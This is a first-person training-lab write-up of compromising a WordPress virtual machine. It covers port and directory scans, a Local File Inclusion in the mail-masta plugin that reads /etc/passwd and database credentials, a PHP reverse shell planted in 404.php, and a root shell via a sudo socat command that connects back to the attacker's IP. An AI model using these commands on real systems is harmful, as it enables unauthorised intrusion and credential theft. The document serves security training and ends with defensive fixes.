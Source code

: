 1. Introduction
I conducted a penetration test on a virtual machine as part of a training exercise. The project objectives were:

Gain initial access to the system by exploiting web application vulnerabilities.

Escalate privileges to root.

Locate and decode hidden flags (user.txt and root.txt).

2. Methodology
Phase 1: Reconnaissance

Performed port scanning using:

bash
nmap -p- -A -T4 10.201.89.220
Discovered open ports:

21 (FTP): Anonymous login allowed (no useful data).

22 (SSH): Secured (no immediate entry).

80 (HTTP): Apache web server running WordPress.

Phase 2: Web Application Exploitation

Identified the /wordpress directory using gobuster:

bash
gobuster dir -u http://10.201.89.220 -w /usr/share/wordlists/dirb/common.txt
Exploited Local File Inclusion (LFI) in the mail-masta plugin:

bash
curl "http://10.201.89.220/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"
Extracted wp-config.php in Base64 and decoded it to retrieve database credentials:

bash
echo "PD9waHA..." | base64 -d
Phase 3: Reverse Shell Access

Injected a PHP reverse shell into 404.php (WordPress theme template):

php
<?php
$ip = '10.201.31.69';  // My attacker IP
$port = 1234;
// ... (reverse shell code)
?>
Executed the shell by visiting:
http://10.201.89.220/wordpress/wp-content/themes/twentytwenty/404.php

Captured the connection with Netcat:

bash
nc -nlvp 1234
Gained initial access as www-data.

Phase 4: Privilege Escalation

Discovered credentials for user elyana in /home/elyana/private.txt:

bash
cat /home/elyana/private.txt
Switched to elyana:

bash
su elyana
Identified sudo privileges for /usr/bin/socat:

bash
sudo -l
Exploited socat to gain root access:

bash
sudo socat tcp-connect:10.201.31.69:4444 exec:bash,pty,stderr,setsid,sigint,sane
3. Results
User Flag:

bash
cat /home/elyana/user.txt
Decoded from Base64:

bash
echo "VEhNezQ5amc2..." | base64 -d
Flag: THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}

Root Flag:

bash
cat /root/root.txt
Decoded from Base64:

bash
echo "VEhNe3VlbTJ3aWdid..." | base64 -d
Flag: THM{uem2wigbuem2wigb68sn2j1ospi86sn2j1ospi8}

4. Conclusion
Through this project, I:

Conducted thorough reconnaissance with nmap and gobuster.

Exploited LFI to extract sensitive credentials.

Gained initial access via a reverse shell.

Performed horizontal escalation to elyana and vertical escalation to root using sudo socat.

Successfully retrieved and decoded both flags.

Key Takeaways:

Web Vulnerabilities: LFI remains a critical attack vector in poorly configured web apps.

Privilege Escalation: Always check sudo -l for misconfigurations.

Persistence: Tools like socat can bypass restrictions for root access.

The project was completed successfully, with all objectives achieved. The most challenging part was privilege escalation, but analyzing sudo permissions revealed the optimal path.

Suggestions for Improvement:

Implement stricter file permissions on /home/elyana/private.txt.

Disable unnecessary sudo privileges (e.g., restrict socat).

Monitor for unauthorized edits to WordPress template files.

This exercise significantly improved my skills in offensive security and vulnerability analysis.
